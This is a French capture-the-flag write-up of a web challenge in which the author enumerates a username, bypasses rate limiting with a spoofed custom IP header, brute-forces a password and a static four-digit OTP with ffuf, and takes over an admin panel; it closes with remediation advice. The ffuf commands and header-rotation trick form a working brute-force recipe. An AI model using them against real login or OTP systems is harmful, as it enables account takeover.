









# Writeup CTF — Pentest Recruit

**Auteur :** amogus
**Date :** 08 Mai 2026
**Plateforme cible :** `http://62.171.167.55:5000`
**Catégorie :** Web — Authentification / API / Brute Force
**Flag :** `CTF{Brut3F0rc3_0TP_4dm1n_P4n3l_2024}`
**Statut :** ✅ Résolu

---

## Table des matières

1. [Résumé](#1-résumé)
2. [Reconnaissance & Énumération du username](#2-reconnaissance--énumération-du-username)
3. [Contournement du rate limiting — Découverte de l'endpoint `/security-update`](#3-contournement-du-rate-limiting--découverte-de-lendpoint-security-update)
4. [Brute force du mot de passe avec `ffuf`](#4-brute-force-du-mot-de-passe-avec-ffuf)
5. [Accès au dashboard — Analyse du trafic Burp Suite](#5-accès-au-dashboard--analyse-du-trafic-burp-suite)
6. [Fuzzing des endpoints API](#6-fuzzing-des-endpoints-api)
7. [Exploitation de l'API exposée — Fuite d'informations admin](#7-exploitation-de-lapi-exposée--fuite-dinformations-admin)
8. [Accès au panel admin caché — Brute force OTP](#8-accès-au-panel-admin-caché--brute-force-otp)
9. [Obtention du flag](#9-obtention-du-flag)
10. [Synthèse des vulnérabilités](#10-synthèse-des-vulnérabilités)
11. [Timeline](#11-timeline)

---

## 1. Résumé

Ce challenge CTF met en scène une application web de recrutement pentest (`Pentest Recruit`, v2.1.0) déployée en environnement de production. L'objectif est d'accéder au panel d'administration interne en enchaînant plusieurs vulnérabilités :

| Étape | Technique | Résultat |
|-------|-----------|----------|
| 1 | Username enumeration via Burp Intruder (Pitchfork) | Username : `devrootkali` |
| 2 | Découverte d'un header personnalisé via code source | Header : `X-IP-For` |
| 3 | Brute force password via `ffuf` (Pitchfork + IP rotation) | Password : `sup3rs3cr3tm3g4c0de` |
| 4 | Fuzzing des endpoints API authentifiés | Endpoint sensible : `/api/info` |
| 5 | Exposition de données admin via API non protégée | Email admin : `superadmin@internal.pentest-recruit.fr` |
| 6 | Brute force OTP 4 chiffres sur le panel admin caché | OTP : `8531` |
| 7 | Accès au panel administrateur | **FLAG obtenu** |

---

## 2. Reconnaissance & Énumération du username

### Objectif

Identifier un username valide parmi une liste de candidats via le formulaire de connexion (`POST /login`).

### Méthode

Utilisation de **Burp Suite Intruder** en mode **Pitchfork** :

- **Payload 1** : liste d'IP factices dans l'en-tête `X-Forwarded-For` (pour anticiper un éventuel rate limiting)
- **Payload 2** : wordlist de usernames courants

**Requête interceptée :**

```http
POST /login HTTP/1.1
Host: 62.171.167.55:5000
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: §1§

username=§admin§&password=password
```



### Analyse des résultats

Les résultats ont été filtrés par **taille de réponse**. La majorité des réponses avaient une taille identique (7747 octets). Une réponse se distinguait avec **7756 octets** : celle correspondant au username `devrootkali`.



La réponse associée contenait le message :

> *"Le mot de passe pour cet utilisateur est incorrect."*

Ce message différent des autres confirme que l'utilisateur **`devrootkali` existe** dans la base de données — il s'agit d'une **énumération de compte par message d'erreur différencié**.

---

## 3. Contournement du rate limiting — Découverte de l'endpoint `/security-update`

### Problème rencontré

En passant au brute force du mot de passe avec `X-Forwarded-For`, le serveur répondait rapidement avec :

> *"Trop de tentatives. Réessayez dans 6 minutes."*



Le mécanisme de protection ignorait le header `X-Forwarded-For` pour le comptage des tentatives.

### Découverte clé : `/security-update`

En explorant manuellement le code source de l'application, un endpoint non référencé a été identifié :

```
GET /security-update
```

Son contenu révèle une **backdoor documentée** laissée par un développeur :

```
Objet : Mise à jour de la sécurité du site

[...]
il vous sera possible d'utiliser l'en-tête personnalisé « X-IP-For : <Votre IP> »,
en y précisant votre adresse IP. Ce procédé vous permettra de rétablir temporairement l'accès.
```

> **Vulnérabilité :** Information Disclosure — un endpoint public expose la logique interne de bypass du rate limiting.

### Conséquence

Le header effectif à utiliser pour contourner la restriction n'est **pas** `X-Forwarded-For` mais :

```
X-IP-For: <IP>
```

---

## 4. Brute force du mot de passe avec `ffuf`

### Génération de la wordlist d'IP

Pour éviter de soumettre une IP identique à chaque requête et déclencher le rate limiting, une wordlist de 3000 adresses IP a été générée dynamiquement :

```python
python3 -c "
count = 0
for i in range(1, 255):
    for j in range(0, 255):
        if count >= 3000: exit()
        print(f'{i}.{j}.1.1')
        count += 1
" > ips.txt
```

### Commande `ffuf`

```bash
ffuf -w passwords.txt:PASS -w ips.txt:IP \
  -u http://62.171.167.55:5000/login \
  -X POST \
  -d "username=devrootkali&password=PASS" \
  -H "X-IP-For: IP" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -mode pitchfork \
  -fw 2721,2719 \
  -t 5 -v
```

| Paramètre | Valeur |
|-----------|--------|
| Mode | Pitchfork (PASS et IP synchronisés) |
| Filtre | `-fw 2721,2719` — exclure les réponses standard d'échec |
| Threads | 5 |

### Résultat

```
[Status: 302, Size: 207, Words: 18, Lines: 6, Duration: 197ms]
| URL | http://62.171.167.55:5000/login
| --> | /dashboard
  * IP:   7.161.1.1
  * PASS: sup3rs3cr3tm3g4c0de
```



**Credentials obtenus :**
- Username : `devrootkali`
- Password : `sup3rs3cr3tm3g4c0de`

---

## 5. Accès au dashboard — Analyse du trafic Burp Suite

Après authentification, la session est analysée via Burp Suite. L'historique HTTP révèle plusieurs endpoints intéressants :



| Endpoint | Méthode | Code | Type | Observation |
|----------|---------|------|------|-------------|
| `/login` | POST | 302 | HTML | Authentification réussie |
| `/dashboard` | GET | 200 | HTML | Page principale |
| `/api/missions` | GET | 200 | **JSON** | Données missions |
| `/api/profile` | GET | 200 | **JSON** | Profil utilisateur |
| `/api/` | GET | 404 | HTML | Endpoint racine non trouvé |
| `/_hidden_panel_admin` | GET | 200 | HTML | **Panel admin caché** |

La présence de plusieurs endpoints `/api/*` oriente vers un **fuzzing d'API**.

---

## 6. Fuzzing des endpoints API

### Commande

```bash
SESSION="f77befa5-2719-416e-b44a-d2f546ce3060"

ffuf -u http://62.171.167.55:5000/api/FUZZ \
  -H "Cookie: session=$SESSION" \
  -w /usr/share/wordlists/dirb/common.txt \
  -mc 200,301,302 \
  -t 5 -v
```

### Résultats

```
[Status: 200, Size: 373, Words: 3, Lines: 2, Duration: 353ms]
| URL | http://62.171.167.55:5000/api/info
  * FUZZ: info

[Status: 200, Size: 183, Words: 5, Lines: 2, Duration: 258ms]
| URL | http://62.171.167.55:5000/api/profile
  * FUZZ: profile
```



L'endpoint **`/api/info`** est particulièrement intéressant de par sa taille de réponse (373 octets).

---

## 7. Exploitation de l'API exposée — Fuite d'informations admin

### Requête

```http
GET /api/info HTTP/1.1
Host: 62.171.167.55:5000
Cookie: session=f77befa5-2719-416e-b44a-d2f546ce3060
```

### Réponse

```json
{
    "admin_info": {
        "email": "superadmin@internal.pentest-recruit.fr",
        "last_login": "2024-09-01T18:30:00Z",
        "role": "System Administrator",
        "username": "superadmin"
    },
    "company": "Pentest Recruit",
    "environment": "production",
    "internal_endpoints": [
        "/api/missions",
        "/api/profile",
        "/api/info",
        "/_hidden_panel_admin"
    ],
    "maintenance_mode": false,
    "system_status": "operational",
    "version": "2.1.0"
}
```



> **Vulnérabilité critique : API Information Disclosure (OWASP API3)**
> L'endpoint `/api/info` est accessible à tout utilisateur authentifié et expose des données sensibles d'administration sans contrôle d'accès basé sur le rôle (RBAC).

**Informations récoltées :**

| Champ | Valeur |
|-------|--------|
| Username admin | `superadmin` |
| Email admin | `superadmin@internal.pentest-recruit.fr` |
| Rôle | System Administrator |
| Panel caché | `/_hidden_panel_admin` |

---

## 8. Accès au panel admin caché — Brute force OTP

### Contexte

L'endpoint `/_hidden_panel_admin` présente une page de connexion avec une fonctionnalité **"Mot de passe oublié"**. En soumettant l'email `superadmin@internal.pentest-recruit.fr`, un OTP à 4 chiffres est envoyé, valide 20 minutes.

**Observations clés issues du code source :**
- Code à **4 chiffres** → espace de recherche : 0000–9999 (10 000 valeurs)
- Valide pendant **20 minutes**
- **L'OTP ne change pas** entre les tentatives (pas de renouvellement automatique)



### Stratégie

Une première tentative sur l'ensemble [0000–9999] est lancée. L'observation des réponses indique que l'OTP se situe dans la plage **4000–5000**, permettant de cibler la wordlist :

```bash
seq -w 4000 5000 > otp_wordlist.txt
```

### Commande de brute force

```bash
SESSION="8313f59e-4e38-455b-afd6-96425799b852"

ffuf -u http://62.171.167.55:5000/_hidden_panel_admin/validate_otp \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: session=$SESSION" \
  -H "X-IP-For: 10.10.10.10" \
  -d "otp=FUZZ" \
  -w otp_wordlist.txt \
  -fr "incorrect|invalide|erreur|invalid|OTP" \
  -t 5 \
  -v
```

> **Note :** Le header `X-IP-For` est également utilisé ici pour contourner le rate limiting du panel admin.

### Résultat

```
[Status: 302, Size: 257, Words: 18, Lines: 6, Duration: 320ms]
| URL | http://62.171.167.55:5000/_hidden_panel_admin/validate_otp
| --> | /_hidden_panel_admin/reset_password
  * FUZZ: 8531
```

**OTP valide : `8531`**

Après validation de l'OTP, le mot de passe de `superadmin` est réinitialisé, permettant la connexion au panel administrateur.

---

## 9. Obtention du flag

Connexion réussie au panel `/_hidden_panel_admin` en tant que `superadmin` :



```
🏆 FLAG CTF

CTF{Brut3F0rc3_0TP_4dm1n_P4n3l_2024}
```

---

## 10. Synthèse des vulnérabilités

| # | Vulnérabilité | Localisation | Sévérité | Référence OWASP |
|---|--------------|-------------|----------|-----------------|
| 1 | **Énumération de comptes** par message d'erreur différencié | `POST /login` | Moyenne | A01 – Broken Access Control |
| 2 | **Information Disclosure** — endpoint interne exposé publiquement | `GET /security-update` | Haute | A05 – Security Misconfiguration |
| 3 | **Absence de rate limiting effectif** — bypass via header personnalisé | `POST /login` | Haute | A07 – Identification Failures |
| 4 | **API Information Disclosure** — données admin accessibles à tout utilisateur | `GET /api/info` | Critique | A03 – Sensitive Data Exposure / API3 |
| 5 | **OTP faible et statique** — brute forceable en moins de 10 000 tentatives | `POST /validate_otp` | Critique | A07 – Identification Failures |
| 6 | **Absence de rate limiting OTP** — bypass via `X-IP-For` | `POST /validate_otp` | Critique | A07 – Identification Failures |

### Recommandations

- **Énumération de comptes** : Utiliser des messages d'erreur génériques identiques quel que soit le résultat (`"Identifiants incorrects"`).
- **Endpoint `/security-update`** : Supprimer tout endpoint exposant des informations internes ou des mécanismes de bypass. Ne jamais documenter de backdoor dans le code source accessible.
- **Rate limiting** : Implémenter le rate limiting côté serveur basé sur l'identifiant de session ou l'empreinte de l'utilisateur, et non sur des headers HTTP pouvant être falsifiés.
- **API `/api/info`** : Appliquer un contrôle d'accès par rôle (RBAC) strict — les données administrateur ne doivent être accessibles qu'aux comptes administrateur.
- **OTP** : Utiliser des OTP à 6+ chiffres (ou alphanumériques), avec invalidation après chaque tentative échouée et limitation stricte du nombre de tentatives.

---

## 11. Timeline

| Heure | Action |
|-------|--------|
| 10:14 | Première tentative de connexion manuelle |
| 10:37 | Lancement ffuf brute force password |
| 10:42 | Credentials trouvés — accès au dashboard |
| 10:51 | Accès au panel admin caché `/_hidden_panel_admin` |
| 10:55 | Fuzzing des endpoints API |
| 11:01 | Découverte de `/api/info` — fuite données admin |
| 11:06 | Demande de réinitialisation OTP — `superadmin@internal.pentest-recruit.fr` |
| ~11:09 | Brute force OTP — code `8531` trouvé |
| ~11:10 | Réinitialisation du mot de passe — connexion en tant que `superadmin` |
| ~11:10 | **FLAG obtenu** : `CTF{Brut3F0rc3_0TP_4dm1n_P4n3l_2024}` |

---

*Writeup rédigé par amogus — CTF Pentest Recruit — 08 Mai 2026*
